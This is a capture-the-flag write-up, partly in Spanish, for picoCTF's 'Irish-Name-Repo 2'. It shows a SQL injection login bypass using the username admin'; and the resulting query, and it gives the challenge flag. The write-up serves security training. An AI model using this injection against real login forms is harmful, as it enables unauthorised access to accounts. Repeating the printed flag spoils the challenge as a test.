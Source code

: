 # Irish-Name-Repo 2


## Descripcion
There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849

## Pistas
The password is being filtered
## Solucion
se realiza una inyeccion sql poniendo admin'; como nombre de usuario
username: admin';
password: ssss
SQL query: SELECT * FROM users WHERE name='admin';' AND password='ssss'

Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_fa983901}
## Bandera
picoCTF{m0R3_SQL_plz_fa983901}
## Notas adicionales


## Referencias
https://www.w3schools.com/sql/sql_injection.asp